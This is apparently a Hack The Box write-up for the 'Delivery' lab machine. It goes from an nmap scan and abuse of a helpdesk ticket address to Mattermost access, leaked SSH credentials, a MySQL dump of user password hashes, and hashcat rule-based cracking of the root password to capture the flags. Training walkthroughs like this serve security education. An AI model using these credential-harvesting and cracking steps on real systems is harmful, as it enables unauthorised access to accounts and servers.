# Information Gathering

## Nmap Scan
Lets begin our initial port scan.

```console
DHSs-MacBook-Pro:~ dhs$ nmap -sC -sV 10.10.10.222
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-12 03:06 +06
Nmap scan report for 10.10.10.222
Host is up (0.10s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.12 seconds
DHSs-MacBook-Pro:~ dhs$ 
```
We got 2 ports open **80** and **22**.

Let's first visit the web port **80**.

## Web Enumeration
When we visit the page we are greeted with the following


After viewing the Source we got some interesting things.



We got a hostname **delivery.htb** and a subdomain **helpdesk.deliver.htb**. We got a new port **8065** as well.

Lets add the hosts in **/etc/hosts** file.

```console
DHSs-MacBook-Pro:~ dhs$ cat /etc/hosts
##
# Host Database
#
# localhost is used to configure the loopback interface
# when the system is booting.  Do not change this entry.
##
10.10.10.222 delivery.htb helpdesk.delivery.htb
127.0.0.1	localhost
255.255.255.255	broadcasthost
::1             localhost
DHSs-MacBook-Pro:~ dhs$ 
```

Now let's examine **helpdesk.delivery.htb** and **delivery.htb:8065**

In the **Contact Us** page on **delivery.htb** we got some information


Port 8065 contains the Mattermost server. And to access that we need an @delivery.htb email. And to register we have to somehow acces the HelpDesk site. Lets examine that.

We greeted with the follwing



Let's try to open a ticket.


---



Now the ticket is created. And we got ticket id and a new email **8115365@delivery.htb**. let's Note this for now and try to view the ticket.




We can see the ticket now.

Now from the Mattermost server let's register for a new user with email we note previously **8115365@delivery.htb**.



After the registration we got the verfication mail in the ticket information



# User Access

Let's verify the email and log into the mattermost server.



We got a credential **maildeliverer:Youve_G0t_Mail!**
And also we got some juicy info 


Let's note this for now and try to ssh with the found creds.



Voila we logged in with the creds.

Let's view the flag

```console
maildeliverer@Delivery:~$ cat user.txt
2be4b0f470d382bc263f1f9a6c826941
maildeliverer@Delivery:~$ 
```
# Root Access

I had run linpeas and linenum without any success. Then I googled a bit and came to know that Mattermost server has the configuration file istuated in **/opt/mattermost/config/config.json**.



Now let's view the file if we can get any creds.



Voila we got mysql creds **mmuser:Crack_The_MM_Admin_PW**

Let's access the mysql databases.

```console
maildeliverer@Delivery:/tmp$ mysql -u mmuser -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 162
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [(none)]> use mattermost;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mattermost]> show tables;
+------------------------+
| Tables_in_mattermost   |
+------------------------+
| Audits                 |
| Bots                   |
| ChannelMemberHistory   |
| ChannelMembers         |
| Channels               |
| ClusterDiscovery       |
| CommandWebhooks        |
| Commands               |
| Compliances            |
| Emoji                  |
| FileInfo               |
| GroupChannels          |
| GroupMembers           |
| GroupTeams             |
| IncomingWebhooks       |
| Jobs                   |
| Licenses               |
| LinkMetadata           |
| OAuthAccessData        |
| OAuthApps              |
| OAuthAuthData          |
| OutgoingWebhooks       |
| PluginKeyValueStore    |
| Posts                  |
| Preferences            |
| ProductNoticeViewState |
| PublicChannels         |
| Reactions              |
| Roles                  |
| Schemes                |
| Sessions               |
| SidebarCategories      |
| SidebarChannels        |
| Status                 |
| Systems                |
| TeamMembers            |
| Teams                  |
| TermsOfService         |
| ThreadMemberships      |
| Threads                |
| Tokens                 |
| UploadSessions         |
| UserAccessTokens       |
| UserGroups             |
| UserTermsOfService     |
| Users                  |
+------------------------+
46 rows in set (0.001 sec)

MariaDB [mattermost]> select * from users;
ERROR 1146 (42S02): Table 'mattermost.users' doesn't exist
MariaDB [mattermost]> select * from Users;
+----------------------------+---------------+---------------+----------+----------------------------------+--------------------------------------------------------------+----------+-------------+-------------------------+---------------+----------+--------------------+----------+----------+--------------------------+----------------+-------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------+-------------------+----------------+--------+------------------------------------------------------------------------------------------+-----------+-----------+
| Id                         | CreateAt      | UpdateAt      | DeleteAt | Username                         | Password                                                     | AuthData | AuthService | Email                   | EmailVerified | Nickname | FirstName          | LastName | Position | Roles                    | AllowMarketing | Props | NotifyProps                                                                                                                                                                  | LastPasswordUpdate | LastPictureUpdate | FailedAttempts | Locale | Timezone                                                                                 | MfaActive | MfaSecret |
+----------------------------+---------------+---------------+----------+----------------------------------+--------------------------------------------------------------+----------+-------------+-------------------------+---------------+----------+--------------------+----------+----------+--------------------------+----------------+-------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------+-------------------+----------------+--------+------------------------------------------------------------------------------------------+-----------+-----------+
| 64nq8nue7pyhpgwm99a949mwya | 1608992663714 | 1608992663731 |        0 | surveybot                        |                                                              | NULL     |             | surveybot@localhost     |             0 |          | Surveybot          |          |          | system_user              |              0 | {}    | {"channel":"true","comments":"never","desktop":"mention","desktop_sound":"true","email":"true","first_name":"false","mention_keys":"","push":"mention","push_status":"away"} |      1608992663714 |     1608992663731 |              0 | en     | {"automaticTimezone":"","manualTimezone":"","useAutomaticTimezone":"true"}               |         0 |           |
| 6akd5cxuhfgrbny81nj55au4za | 1609844799823 | 1609844799823 |        0 | c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK | NULL     |             | 4120849@delivery.htb    |             0 |          |                    |          |          | system_user              |              0 | {}    | {"channel":"true","comments":"never","desktop":"mention","desktop_sound":"true","email":"true","first_name":"false","mention_keys":"","push":"mention","push_status":"away"} |      1609844799823 |                 0 |              0 | en     | {"automaticTimezone":"","manualTimezone":"","useAutomaticTimezone":"true"}               |         0 |           |
| 6wkx1ggn63r7f8q1hpzp7t4iiy | 1609844806814 | 1609844806814 |        0 | 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G | NULL     |             | 7466068@delivery.htb    |             0 |          |                    |          |          | system_user              |              0 | {}    | {"channel":"true","comments":"never","desktop":"mention","desktop_sound":"true","email":"true","first_name":"false","mention_keys":"","push":"mention","push_status":"away"} |      1609844806814 |                 0 |              0 | en     | {"automaticTimezone":"","manualTimezone":"","useAutomaticTimezone":"true"}               |         0 |           |
| adwpsfrr7frw3c6pf4muu1hray | 1613141949038 | 1613142354855 |        0 | test13                           | $2a$10$BoXDK0cngJznGEqoX7mgSupMzU9TFUvAE0hwlx0QipQRwUy/KoPBa | NULL     |             | 8115365@delivery.htb    |             1 |          |                    |          |          | system_user              |              1 | {}    | {"channel":"true","comments":"never","desktop":"mention","desktop_sound":"true","email":"true","first_name":"false","mention_keys":"","push":"mention","push_status":"away"} |      1613141949038 |                 0 |              0 | en     | {"automaticTimezone":"Asia/Dhaka","manualTimezone":"","useAutomaticTimezone":"true"}     |         0 |           |
| dijg7mcf4tf3xrgxi5ntqdefma | 1608992692294 | 1609157893370 |        0 | root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO | NULL     |             | root@delivery.htb       |             1 |          |                    |          |          | system_admin system_user |              1 | {}    | {"channel":"true","comments":"never","desktop":"mention","desktop_sound":"true","email":"true","first_name":"false","mention_keys":"","push":"mention","push_status":"away"} |      1609157893370 |                 0 |              0 | en     | {"automaticTimezone":"Africa/Abidjan","manualTimezone":"","useAutomaticTimezone":"true"} |         0 |           |
| hatotzdacb8mbe95hm4ei8i7ny | 1609844805777 | 1609844805777 |        0 | ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq | NULL     |             | 9122359@delivery.htb    |             0 |          |                    |          |          | system_user              |              0 | {}    | {"channel":"true","comments":"never","desktop":"mention","desktop_sound":"true","email":"true","first_name":"false","mention_keys":"","push":"mention","push_status":"away"} |      1609844805777 |                 0 |              0 | en     | {"automaticTimezone":"","manualTimezone":"","useAutomaticTimezone":"true"}               |         0 |           |
| jing8rk6mjdbudcidw6wz94rdy | 1608992663664 | 1608992663664 |        0 | channelexport                    |                                                              | NULL     |             | channelexport@localhost |             0 |          | Channel Export Bot |          |          | system_user              |              0 | {}    | {"channel":"true","comments":"never","desktop":"mention","desktop_sound":"true","email":"true","first_name":"false","mention_keys":"","push":"mention","push_status":"away"} |      1608992663664 |                 0 |              0 | en     | {"automaticTimezone":"","manualTimezone":"","useAutomaticTimezone":"true"}               |         0 |           |
| n9magehhzincig4mm97xyft9sc | 1609844789048 | 1609844800818 |        0 | 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm | NULL     |             | 5056505@delivery.htb    |             1 |          |                    |          |          | system_user              |              0 | {}    | {"channel":"true","comments":"never","desktop":"mention","desktop_sound":"true","email":"true","first_name":"false","mention_keys":"","push":"mention","push_status":"away"} |      1609844789048 |                 0 |              0 | en     | {"automaticTimezone":"","manualTimezone":"","useAutomaticTimezone":"true"}               |         0 |           |
| wknrxzwo67ffufm6gopzz1x6zh | 1613121385550 | 1613121385550 |        0 | mdmd                             | $2a$10$4bUZu9n5twDO75JJqvg2Neup50FKZL44qy6G3AECFg7KCPtnyETjq | NULL     |             | md@delivery.htb         |             0 |          |                    |          |          | system_user              |              1 | {}    | {"channel":"true","comments":"never","desktop":"mention","desktop_sound":"true","email":"true","first_name":"false","mention_keys":"","push":"mention","push_status":"away"} |      1613121385550 |                 0 |              0 | en     | {"automaticTimezone":"","manualTimezone":"","useAutomaticTimezone":"true"}               |         0 |           |
+----------------------------+---------------+---------------+----------+----------------------------------+--------------------------------------------------------------+----------+-------------+-------------------------+---------------+----------+--------------------+----------+----------+--------------------------+----------------+-------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------+-------------------+----------------+--------+------------------------------------------------------------------------------------------+-----------+-----------+
9 rows in set (0.001 sec)

MariaDB [mattermost]> 
```

So we got the root hash **\$2a\$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO**

Now we have to decrypt the hash with hashcat. but default rockyou.txt will not help in this case as we noted previously. We have to use hashcat rules to solve this problem. I have used **best64.rule**. It can be found in **/usr/share/hashcat/rules/**. 

```console
DHSs-MacBook-Pro:delivery dhs$ hashcat -m 3200 -r rules hashes pleasesub 
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 (Nov 23 2020 03:06:15)) - Platform #1 [Apple]
====================================================================
* Device #1: Intel(R) Core(TM) i5-8257U CPU @ 1.40GHz, skipped
* Device #2: Intel(R) Iris(TM) Plus Graphics 645, 1472/1536 MB (384 MB allocatable), 48MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 77

Applicable optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 85 MB

Dictionary cache built:
* Filename..: pleasesub
* Passwords.: 1
* Bytes.....: 17
* Keyspace..: 77
* Runtime...: 0 secs

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.  

[s]tatus [p]ause [b]ypass [c]heckpoint [q]uit =>

$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v...JwgjjO
Time.Started.....: Sat Feb 13 01:52:59 2021 (1 min, 12 secs)
Time.Estimated...: Sat Feb 13 01:54:11 2021 (0 secs)
Guess.Base.......: File (pleasesub)
Guess.Mod........: Rules (rules)
Guess.Queue......: 1/1 (100.00%)
Speed.#2.........:        0 H/s (2.92ms) @ Accel:1 Loops:1 Thr:16 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 21/77 (27.27%)
Rejected.........: 0/21 (0.00%)
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#2...: Salt:0 Amplifier:20-21 Iteration:1023-1024
Candidates.#2....: PleaseSubscribe!21 -> PleaseSubscribe!21

Started: Sat Feb 13 01:52:54 2021
Stopped: Sat Feb 13 01:54:11 2021
DHSs-MacBook-Pro:delivery dhs$ 
```

So, we have cracked the root pass **PleaseSubscribe!21**

Now let's pwn the box and get the root flag

```console
maildeliverer@Delivery:~$ su -
Password: 
root@Delivery:~# cat /root/root.txt 
1c2e474a9cc0a95ac650a814bcd27fee
root@Delivery:~# 
```
So, that's it. Thank you who have read this far.
